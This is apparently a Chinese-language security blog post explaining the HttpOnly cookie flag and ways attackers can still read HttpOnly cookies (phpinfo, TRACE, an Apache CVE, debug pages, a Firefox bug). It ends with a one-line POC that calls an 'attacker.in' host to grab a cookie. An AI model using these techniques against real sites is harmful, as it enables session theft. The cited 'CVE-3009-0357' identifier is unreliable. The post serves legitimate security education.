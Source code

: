 ```yaml
---
layout: post
title: "HttpOnly的那些事"
description: "HttpOnly的来源，发展和弱点"
category: web
published: 
tags: ["websecurity","xss"]
---
```

{% include JB/setup %}

### HttpOnly简介
故名思议，`HttpOnly`是指仅在`HTTP`层面上传输的`Cookie`，当设置了`HttpOnly`标志后，客户端脚本就无法读写该`Cookie`，这样能有效的防御`XSS`攻击。`HttpOnly`是由微软在`2002`年首先在`Internet Explorer 6 SP1`上实现。根据微软的[描述](http://msdn2.microsoft.com/en-us/library/ms533046.aspx)，`HttpOnly`是`HTTP Set-Cookie`头中的一个附加标志，下面的例子就是一个头信息中设置了`HttpOnly Cookie`。
 
    Set-Cookie: USER=123; expires=Wednesday, 09-Nov-99 23:12:40 GMT; HttpOnly

目前，基本上所有的浏览器和web框架都支持`HttpOnly`。

<!--more-->

### 得到HttpOnly Cookie
##### phpinfo信息
`phpinfo`页面可以包含了`cookie`信息，其中同样存在`HttpOnly Cookie`，如下图。
![phpinfo()信息]({{ site.static_url }}/2013-03-25-01.png)
##### 支持TRACE方法的服务器
`Apache`支持的一个`Header`是`TRACE`，`TRACE`一般是用于调试，他会将请求头作为`HTTP Response Body`返回。利用这个特性，可以把`HttpOnly Cookie`读出来。不过目前各厂商已经禁止通过`Ajax`发送`TRACE`请求。
##### CVE-2012-0053
`Apache 2.2.x`多个版本没有严格限制`HTTP`请求头信息，`HTTP`请求头信息超过`LimitRequestFieldSize`长度时，服务器返回`400`错误，并在返回信息中将出错的请求头内容输出。利用这个特性，可以得到`HttpOnly Cookie`。
##### Django等一些web框架的调试页面
开启了调试模式的一些框架，会将程序的信息输出，其中就有`Cookie`信息。
##### CVE-3009-0357
`Firefox <= 1.9.1`在处理`HttpOnly Cookies`时存在bug，通过`getResponseHeader()`得不到`HttpOnly Cookie`，但是通过`getAllResponseHeaders()`可以得到。
##### Java getHeaderField
POC:

    alert(new java.net.URL('http://attacker.in/xss/cookie.php').openConnection().getHeaderField('set-cookie'));

### 参考
1. [https://www.owasp.org/index.php/HttpOnly](https://www.owasp.org/index.php/HttpOnly)
2. [http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
3. [https://bugzilla.redhat.com/show_bug.cgi?id=785069](https://bugzilla.redhat.com/show_bug.cgi?id=785069)
4. [https://bugzilla.mozilla.org/show_bug.cgi?id=380418](https://bugzilla.mozilla.org/show_bug.cgi?id=380418)
